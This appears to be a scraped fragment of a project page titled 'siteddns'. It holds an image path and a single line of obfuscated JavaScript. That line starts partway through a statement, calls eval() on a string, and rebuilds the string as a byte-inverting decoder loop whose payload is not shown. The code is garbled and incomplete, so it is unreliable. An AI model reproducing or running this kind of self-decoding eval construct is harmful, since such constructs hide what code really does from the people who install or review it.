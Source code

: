  # siteddns
>4);}";eval(mn);mn="mn=1;do{if(mn>46)break;kn[mn]=(((((~kn[mn])&0xff)>>1)|((((~kn[mn])&0xff)
